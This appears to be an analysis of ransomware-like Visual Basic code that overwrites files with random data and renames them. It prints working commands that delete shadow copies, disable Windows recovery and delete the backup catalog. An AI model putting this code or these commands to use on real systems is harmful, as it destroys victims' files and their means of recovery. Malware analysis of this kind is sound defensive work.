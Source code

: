 The key difference in this revised code compared to the previous one lies in the way the random string (`[string]`) is generated and used :

#### Revised Code Snippet

1.  **Generation of a Much Larger Random String**:
    
    -   `Dim num As Integer = random.[Next](200000000, 300000000)`: This line generates a random integer (`num`) between 200 million and 300 million. This number represents the length of the random byte array to be generated.
    -   `Dim [string] As String = Encoding.UTF8.GetString(Program.random_bytes(num))`: Generates a random byte array of length `num` and then converts it to a UTF-8 string. The resulting string is much larger compared to the previous version, where the length was a quarter of the `fileInfo.Length`.
2.  **File Rewriting and Renaming**:
    
    -   `File.WriteAllText(files(i), Program.randomEncode([string]))`: Writes the `Program.randomEncode([string])` result, which is a significantly larger and randomly generated string, into the file at `files(i)`.
    -   `File.Move(files(i), files(i) + "." + Program.RandomStringForExtension(4))`: Renames the file, appending a new random extension.

#### Implications of the Change

-   **File Size Impact**: The most significant impact of this change is on the file size. Because `num` is a large number (between 200 and 300 million), the random string generated will be much larger, potentially making the file sizes significantly bigger after the rewrite.
-   **Performance Considerations**: Generating and writing such a large amount of random data to files could have performance implications, especially if this operation is performed on multiple files or on systems with limited resources.

Overall, this modification shifts the focus of the file manipulation from altering or encrypting the existing content to filling the files with a substantial amount of random data.

#### System Alteration

```
If Program.checkAdminPrivilage Then
		If Program.checkdeleteShadowCopies Then
		Program.deleteShadowCopies()
	End If
	If Program.checkdisableRecoveryMode Then
		Program.disableRecoveryMode()
	End If
	If Program.checkdeleteBackupCatalog Then
		Program.deleteBackupCatalog()
	End If
End If

Private Shared Sub deleteShadowCopies()
	Program.runCommand("vssadmin delete shadows /all /quiet & wmic shadowcopy delete")
End Sub

Private Shared Sub disableRecoveryMode()
	Program.runCommand("bcdedit /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no")
End Sub

Private Shared Sub deleteBackupCatalog()
	Program.runCommand("wbadmin delete catalog -quiet")
End Sub
```
